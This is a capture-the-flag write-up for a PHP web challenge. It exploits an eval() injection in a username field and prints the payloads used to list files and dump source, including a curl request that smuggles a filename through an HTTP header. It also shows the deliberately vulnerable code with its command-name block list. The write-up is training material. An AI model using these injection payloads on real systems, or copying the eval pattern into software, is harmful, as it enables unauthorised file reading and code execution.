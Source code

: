 # Web-Embedding
URL of the challenge: [http://138.91.58.10/Embedding/] (Embedding)

In the page, we got a input box
```html
<input name="username" placeholder="Enter Your UserName Here">
```

We tried to input 
> getcwd()

The result changed to
> /var/www/html/Embedding welcome

Thus, we knew that the challenge is about <font color="#f03c15"> Eval() Vulnerability </font>/

Then, we put 
> print_r(scandir(getcwd()))
to get all file in this directory./

The result changed to
> Array ( \[0\] => . \[1\] => .. \[2\] => fl@g.php \[3\] => index.php ) 1 welcome

Finally, we knew that the flag is stored in fl@g.php

Before we get the source code of fl@g.php, we should know the constants of the input first/

Thus, we typed
> show_source(end(scandir(getcwd())))

```php
<html> 
<head><title>Embedded Challenge </title> </head>
<body>
<form> 
<input name="username" placeholder="Enter Your UserName Here"/>
<input type="Submit"/>
</form>
</body>
</html>

<?php




if(isset($_GET["username"]))
{
    $wl = preg_match('/^[a-z0-9\(\)\_\.\']+$/i', $_GET["username"]);
    $comn=preg_match('/^(rm|cp|mv|cd|grep|find|cat|Y2F0|ZmluZA|cm0|Y3A|bXY|Z3JlcA|whoami|)+$/i', $_GET["username"]);

    if($wl === 0 || $comn===1 || strlen($_GET["username"]) > 40) {
        die("Bad Character Detected or you Break The Limit ");
   }
   $username=$_GET['username'];
    $eval=eval("echo ".$username.";");
    echo(" welcome ".$eval);
}
?> 
```

Thus, we knew that the input only can be/
<font color="#f03c15">a-z</font>, 
<font color="#f03c15">0-9</font>, 
<font color="#f03c15">(</font>, 
<font color="#f03c15">)</font>, 
<font color="#f03c15">_</font>, 
<font color="#f03c15">.</font>, 
<font color="#f03c15">'</font> and the string length must be smaller than 41

First we try that
> read_file(next(array_reverse(scandir('.'))))

However, the string length is 43, we cannot get the result./

Thus, we found that we can set the header of the request to store variable fl@g.php/

Then, we use curl command in console to get the source code of fl@g.php

> curl -s -H "Flag: fl@g.php" "http://138.91.58.10/Embedding/?username=show_source(end(getallheaders()))"

```html 
<html>
<head><title>Embedded Challenge </title> </head>
<body>
<form>
<input name="username" placeholder="Enter Your UserName Here"/>
<input type="Submit"/>
</form>
</body>
</html>

<code><span style="color: #000000">
<span style="color: #0000BB">&lt;?php<br />$flag</span><span style="color: #007700">=</span><span style="color: #DD0000">"0xL4ugh{Z!90o_S@y_W3lC0m3}"</span><span style="color: #007700">;<br /></span><span style="color: #0000BB">?&gt;<br /></span>
</span>
</code>1 welcome
```

Finally, we got the flag ^.^

> 0xL4ugh{Z!90o_S@y_W3lC0m3}
